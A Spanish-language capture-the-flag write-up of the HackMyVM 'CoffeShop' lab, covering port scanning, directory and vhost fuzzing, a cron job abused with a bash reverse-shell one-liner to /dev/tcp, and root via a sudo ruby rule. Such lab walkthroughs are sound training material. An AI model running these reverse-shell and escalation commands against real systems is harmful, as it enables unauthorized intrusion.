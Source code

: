 ```yaml
---
layout: post
title: HackMyWM - CoffeShop
author: c4rta
date: 2024-01-15
tags: [HackMyWM]
image: /assets/img/coffeshop/wallhaven-x6wgmo.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

 - sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto, y ademas para que vaya mas rapido

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

 ```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **shop**

```ruby
gobuster dir -u http://192.168.1.84/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```ruby
/shop                 (Status: 301) [Size: 311] [--> http://192.168.1.84/shop/]
```

### Explorando el sitio web

En el sitio web principal nos encontramos el nombre de un dominio **midnight.coffee**, es posible que se este aplicando virtual hosting y lo tengamos que agregar al **/etc/host** para que resuelva

```bash
echo "<IP>     midnight.coffee" | tee -a /etc/hosts
```

Si regresamos el sitio web y entramos el recurso **/shop**, nos mostrara un encabezado con varias opciones, donde tendremos un login

![](/assets/img/coffeshop/2.png)

En este punto intente probar con SQLi, NoSQLi, Type Juggling pero nada de eso me funciono, asi que recurri a enumerar subdominios, recordemos que agregamos un dominio al /etc/hosts, por lo cual debemos de hacer el fuzzing con ese dominio, usaremos wfuzz en modo vhost y descubriremos **dev**

```ruby
wfuzz -u 'http://midnight.coffee' -H 'Host: FUZZ.midnight.coffee' -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 1690
```

```ruby
200        71 L     152 W      1738 Ch     "dev"
```

Tambien hay que agregarlo el /etc/hosts

```bash
echo "<IP>     dev.midnight.coffee" | tee -a /etc/hosts
```

Al entrar al sitio, podremos ver las credenciales del login

![](/assets/img/coffeshop/3.png)

![](/assets/img/coffeshop/4.png)

## Movimiento lateral: tuna -> shopadmin

### user.txt (via no intencionada)

Durante la enumeracion, pude encontrar que en el directorio /opt existe un archivo de ruby que ocuparemos mas adelante

```ruby
-rw-r--r--  1 root root   27 Jan  3 14:00 shop.rb
```
Tambien intente enumerar binarios SUID, permisos a nivel de sudoers y nada, explore un poco mas y encontre en el directorio home de **shopadmin** tiene permisos de ejecucion, por lo que podemos entrar en el pero no listar contenido

![](/assets/img/coffeshop/5.png)

Asi que se me ocurrio leer el archivo **user.txt** y si tengo suerte y existe tener la flag, y si funciono

![](/assets/img/coffeshop/6.png)

### user.txt (via intencionada)

Si mostramos el archivo **.viminfo** podemos ver que se crearon y/o editaron varias cosas, como el crontab y el archivo **/tmp/uwu.sh** 

![](/assets/img/coffeshop/7.png)

Si mostramos las tareas cron, tenemos una que se ejecuta como el usuario **shopadmin**

```ruby
* * * * * /bin/bash /home/shopadmin/execute.sh
```

Al ver su contenido, podemos ver que esta ejecutando cualquier archivo **.sh** del directorio **/tmp**, por lo cual podemos crear uno que nos envie una reverse shell, en mi caso usare el tipico one liner de bash

```bash
#!/usr/bin/env bash
bash -i >& /dev/tcp/<IP>/443 0>&1
```

Despues de 1 minuto, nos llegara una shell y ya tendremos la flag se user por la via intencionada

![](/assets/img/coffeshop/8.png)

## Escalada de privilegios

Si mostramos los permisos de nivel de sudoers, podemos ver que podemos ejecutar cualquier cosa con ruby y el archivo **shop.rb**

```ruby
User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

Al buscar en **GFTOBins** obtenemos que podemos hacernos root ejecutando **ruby -e 'exec "/bin/sh"'**, si lo probamos asi no funcionada, por lo que debemos de indicarle el archivo **/opt/shop.rb**

```ruby
sudo ruby -e 'exec "/bin/bash"'  /opt/shop.rb
```

Y ya seremos root

![](/assets/img/coffeshop/9.png)

Eso ha sido todo, gracias por leer ❤